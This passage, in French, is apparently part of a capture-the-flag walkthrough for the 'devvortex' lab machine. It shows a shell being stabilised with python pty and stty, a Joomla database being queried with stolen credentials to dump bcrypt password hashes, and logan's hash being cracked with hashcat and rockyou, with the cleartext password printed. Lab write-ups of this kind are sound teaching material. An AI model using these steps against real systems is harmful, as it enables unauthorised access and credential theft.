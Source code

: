 ### Stable shell
On ouvre un shell plus stable en python
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
^Z
stty raw -echo; fg
```

### lewis -> logan : user flag
Avec le compte de lewis, on a pu accéder à la base de données du site web et récupérer les credentials de l'utilisateur **logan**.
```bash
www-data@devvortex:~/dev.devvortex.htb/administrator$ mysql -u lewis -p
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
mysql> use joomla
mysql> show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
.................................
.................................
| sd4fg_usergroups              |
| sd4fg_users                   |
| sd4fg_viewlevels              |
.................................
71 rows in set (0.00 sec)

mysql> select * from sd4fg_users;
.....................................
lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u 
logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
.....................................
2 rows in set (0.00 sec)
```

### hashcat - logan password (getting ssh access)
On crack le hash avec rockyou, et on obtient les credentials pour logan:
user: **logan**
password : **tequieromucho**
```bash
$ hashcat --help | grep 3200
   3200 | bcrypt $2*$, Blowfish (Unix) | Operating System
$ hashcat -m 3200 -a 0 -d 1 hash.txt /home/leopold/wordlists/rockyou.txt --show
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```
